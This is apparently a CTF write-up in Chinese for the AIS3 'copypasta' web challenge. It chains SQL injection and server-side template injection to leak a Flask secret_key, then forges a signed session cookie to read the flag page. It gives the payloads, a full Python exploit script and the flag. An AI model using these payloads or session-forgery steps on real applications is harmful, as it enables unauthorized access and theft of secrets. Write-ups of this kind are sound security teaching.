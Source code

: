 # copypasta
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/4f6a587e-65c5-4e5c-b98f-39a21297138e)

## 解題
一個複製文產生器

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/139b1d1d-0ed3-4e37-9bf4-9c07b78e4aa9)

他會保存所有人在這個網頁生成的文章，裡面有一個文章含有 flag，我們要把牠撈出來。

但是兩個問題
1. 沒有該文章的 ID
2. 如果 session 裡面沒有該文章的 ID 他會 permission denied

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/c2c6746f-9e88-423f-a357-89e8b23ad2ee)

發現這邊有 `SQLi` 的漏洞

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/e65933f5-7d76-4ba1-9db6-186afdc4fd24)

這邊還有 `SSTI` 的漏洞

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/a61b6ac4-0832-4066-be55-877c9acf7630)

因此思路會是：
1. 用 SQLi 生成一個帶有 SSTI payload 的模板並生成文章
2. 利用這個文章的 SSTI 把 session 的 `secret_key` leak 出來
3. 用 SQLi 生成一個模板，裡面有 flag page id 的資料
4. 用 leak 出來 的 `secret_key` 修改 session
5. 讀取 flag page

於是構建出 SSTI payload `field.__init__.__globals__[http]._dt_as_utc.__globals__[sys].modules[flask].current_app.secret_key`

然後搭配 SQLi 得到這個 payload ` union SELECT 0 as id, 'ans' as title, '{field.__init__.__globals__[http]._dt_as_utc.__globals__[sys].modules[flask].current_app.secret_key}' as template`

還有 dump flag page id 的 SQLi payload ` union SELECT id, id as title, id as template from copypasta where orig_id=3`

## exploit
```python
import requests
import sys
import urllib.parse
import hashlib
from bs4 import BeautifulSoup
from flask.json.tag import TaggedJSONSerializer
from itsdangerous import *

session = requests.session()

sqli = " union SELECT 0 as id, 'ans' as title, '{field.__init__.__globals__[http]._dt_as_utc.__globals__[sys].modules[flask].current_app.secret_key}' as template"

session.get(f'{sys.argv[1]}')
data = session.post(f'{sys.argv[1]}/use?id=0{urllib.parse.quote(sqli, safe="")}', params={'a': 'a'}).text

secret_key = BeautifulSoup(data, "html.parser").article.get_text()
print(f'secret_key: {secret_key}')

sqli = " union SELECT id, id as title, id as template from copypasta where orig_id=3"
data = session.get(f'{sys.argv[1]}/use?id=0{urllib.parse.quote(sqli, safe="")}').text

flagid = BeautifulSoup(data, "html.parser").pre.get_text()
print(f'flagid: {flagid}')

for a in session.cookies:
    if a.name == 'session':
        nowsession = a
        break

serializer = URLSafeTimedSerializer(secret_key=secret_key,
                  salt='cookie-session',
                  serializer=TaggedJSONSerializer(),
                  signer_kwargs={
                      'key_derivation': 'hmac',
                      'digest_method': hashlib.sha1,
                  })

sessiondata = serializer.loads(nowsession.value)
sessiondata['posts'].append(flagid)
session.cookies.set(nowsession.name, serializer.dumps(sessiondata), domain=nowsession.domain, path=nowsession.path)

print(session.get(f'{sys.argv[1]}/view/{flagid}').text)
```

## Flag
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/a4b2e738-1171-4938-abc6-14c7857e024a)

`AIS3{I_l0Ve_P@$tA_@ND_cOpypasta}`
